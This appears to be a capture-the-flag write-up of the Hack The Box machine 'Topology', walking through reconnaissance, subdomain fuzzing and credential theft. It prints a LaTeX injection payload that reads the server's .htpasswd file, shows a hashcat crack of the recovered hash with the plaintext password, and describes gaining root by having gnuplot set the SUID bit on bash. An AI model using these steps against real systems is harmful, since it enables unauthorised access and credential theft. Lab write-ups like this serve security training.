


# Topology


# Recon
Default nmap Scan open ports:


```python 
nmap -Pn -sV -O 10.10.11.217
```


```python
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 00:44 EDT
Nmap scan report for topology.htb (10.10.11.217)
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=9/17%OT=22%CT=1%CU=41008%PV=Y%DS=2%DC=I%G=Y%TM=6506845
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.79 seconds
```

From the NMAP scan, ports 80 and 22 were discoverable. So I proceeded to go to the website.


By visiting the site we can see that the domain is topology.htb. 

# Enumeration

```python
ffuf -H "Host: FUZZ.topology.htb" -u "http://topology.htb/" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --fs 6767 
```

```python


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

[Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 122ms]
    * FUZZ: stats
    * FUZZ: dev

```

Found two more subdomains dev , stats 


I roamed the website to find the link LaTex Equation Generator helpful.


Following this, I search an exploit to work on this function. However, it did not give me any credentials so I had to use the subdomain dev.topology.htb. There is a htpasswd which would give the password of the user. To exploit this the command is shown below.


```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```



The username is vdaisley. The password when passed to hash-identifier the encryption is given as md5.

To decrypt it, I used the hashcat tool.

```python
hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
```


```python 
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20          
```     


When decrypted, the password is calculus20
After cracking that hash you can log in as vdaisley using ssh.



To get the user flag just navigate directories and cat out the user.txt.


# Priv-Esc

Priv esc is pretty interesting!
To obtain root status we must find exploit pspy86. Gnuplot uses plt files.
From uploading the file using wget, I managed to make it executable and so I was able to run it.

<br>


The following command made a plt file inside a directory and with the statement system chmod u+s. Bash -p ran the command and made me root. 


From there I was able to switch directories and was able to cat out the root.txt


